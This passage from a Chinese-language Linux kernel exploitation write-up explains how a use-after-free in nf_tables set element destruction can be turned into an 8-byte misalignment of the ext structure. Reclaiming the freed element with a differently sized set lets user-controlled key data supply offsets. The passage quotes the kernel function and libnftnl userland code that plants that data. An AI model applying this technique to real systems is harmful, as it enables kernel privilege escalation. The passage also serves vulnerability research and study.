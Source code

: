 nft\_set\_ext\_expr 首先从 ext->offset\[NFT\_SET\_EXT\_EXPRESSIONS\] 取出偏移，然后加上 ext 地址，最后强转为 `struct nft_set_elem_expr`​ 指针。

再次回到漏洞原语：

```c
static void nf_tables_set_elem_destroy(const struct nft_ctx *ctx,
                       const struct nft_set *set, void *elem)
{
    struct nft_set_ext *ext = nft_set_elem_ext(set, elem);

    if (nft_set_ext_exists(ext, NFT_SET_EXT_EXPRESSIONS))
        nft_set_elem_expr_destroy(ctx, nft_set_ext_expr(ext));

    kfree(elem);
}
```

如果我们首先设置 set->ops->elemsize = 8，触发 free 后使用 set->ops->elemsize = 0x10 的 set 占位，这样 nft\_set\_elem\_ext 计算出的 ext 就会发生 8 字节的错位：

​![image](assets/1706513444-56d3f9d54ddc7ed8c2b1df3dc087563e.png)​

错位后拿到的 `ext->offset[2...8]`​ 位于原始 ext 的 EXT\_KEY 部分，该数据由用户态控制：

```c
    nftnl_set_elem_set(set_elem, NFTNL_SET_ELEM_KEY, set_elem_key, set_elem_key_len);  --> 设置 EXT_KEY
    nftnl_set_elem_set(set_elem, NFTNL_SET_ELEM_USERDATA, set_elem_userdata, sizeof(set_elem_userdata));

    nftnl_set_elem_add(set, set_elem);

    struct nlmsghdr *nlh = nftnl_nlmsg_build_hdr(
        mnl_nlmsg_batch_current(batch),
        NFT_MSG_NEWSETELEM,
        NFPROTO_INET,
        NLM_F_CREATE | NLM_F_EXCL | NLM_F_ACK,
        seq
    );
```
